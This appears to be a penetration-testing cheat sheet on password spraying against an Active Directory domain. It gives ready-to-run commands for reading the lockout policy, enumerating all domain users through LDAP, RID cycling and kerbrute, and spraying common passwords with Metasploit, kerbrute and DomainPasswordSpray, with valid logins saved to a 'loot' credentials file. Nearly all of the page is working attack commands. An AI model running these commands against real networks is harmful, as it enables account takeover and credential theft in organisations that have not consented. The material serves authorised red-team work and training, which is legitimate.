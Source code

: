 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |




## Get Domain Users



### Non-Authenticated

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via [RID Cycling](/pentest/infrastructure/ad/rid-cycling.md).



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
